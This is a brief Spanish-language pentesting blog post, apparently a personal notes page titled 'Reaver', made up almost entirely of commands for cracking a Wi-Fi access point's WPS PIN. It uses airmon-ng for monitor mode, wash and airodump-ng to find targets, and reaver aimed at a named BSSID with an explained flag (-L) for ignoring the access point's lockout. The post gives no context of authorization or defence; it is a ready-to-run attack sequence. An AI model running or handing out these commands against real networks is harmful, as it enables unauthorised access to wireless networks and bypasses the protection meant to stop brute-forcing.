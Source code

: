 Title: Reaver
Date: 2015-09-3 14:07
Modified: 2015-09-3 14:07
Category: Pentesting
Tags: reaver, aircrack, wifi
Slug: reaver
Authors: procamora
Summary:

`airmon-ng start wlan0`

`wash -i mon0`

`reaver -i mon0 -b 30:46:9A:7C:C4:CA -vv -c 8`

`iwconfig`

`airmon-ng start wlan0`

`airodump-ng mon0`


`reaver -i mon0 -vv -b (BSSID del target del AP ) -S -L`
```
-vv: para indicarle que nos muestre como va haciendo su trabajo.
-i: el interface.
-b: BSSID del target del AP.
-S: para que utilice claves pequeñas DH para mejorar la velocidad.
-L: para ignorar el estado locked que nos envía el AP.
```
